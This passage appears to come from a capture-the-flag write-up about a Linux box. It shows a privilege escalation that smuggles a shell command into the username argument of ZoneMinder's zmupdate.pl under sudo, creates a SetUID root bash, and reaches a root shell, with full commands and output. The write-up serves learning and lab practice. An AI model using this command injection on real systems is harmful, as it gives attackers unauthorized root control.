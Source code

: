 #### Exploit

With all of this together, I’ll pass in a user name with `$([cmd])` that will
then get passed to `qx` and run by the OS. I’ll have it create another
SetUID/SetGID `bash`. I’ll need to give a version that isn’t the current
(which happens to be 1.36.32):

    
    
    -bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(/bin/bash)'
    
    Initiating database upgrade to version 1.36.32 from version 10
    
    WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
    Press enter to continue or ctrl-C to abort : 
    
    Do you wish to take a backup of your database prior to upgrading?
    This may result in a large file in /tmp/zm if you have a lot of events.
    Press 'y' for a backup or 'n' to continue : y
    Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
    root@surveillance:/usr/bin#
    

The result is a shell as root! And the root flag:

    
    
    -bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot)'
    
    Initiating database upgrade to version 1.36.32 from version 10
    
    WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
    Press enter to continue or ctrl-C to abort : 
    
    Do you wish to take a backup of your database prior to upgrading?
    This may result in a large file in /tmp/zm if you have a lot of events.
    Press 'y' for a backup or 'n' to continue : y
    Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
    mysqldump: Got error: 1698: "Access denied for user '-pZoneMinderPassword2023'@'localhost'" when trying to connect
    Output: 
    Command 'mysqldump -u$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot) -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-10.dump' exited with status: 2
    

It created the `bash`:

    
    
    -bash-5.1$ ls -l /tmp/0xdfroot 
    -rwsrwsrwx 1 root root 1396520 Apr 19 02:24 /tmp/0xdfroot
    

Running it gets a root shell:

    
    
    -bash-5.1$ /tmp/0xdfroot -p
    0xdfroot-5.1# 
    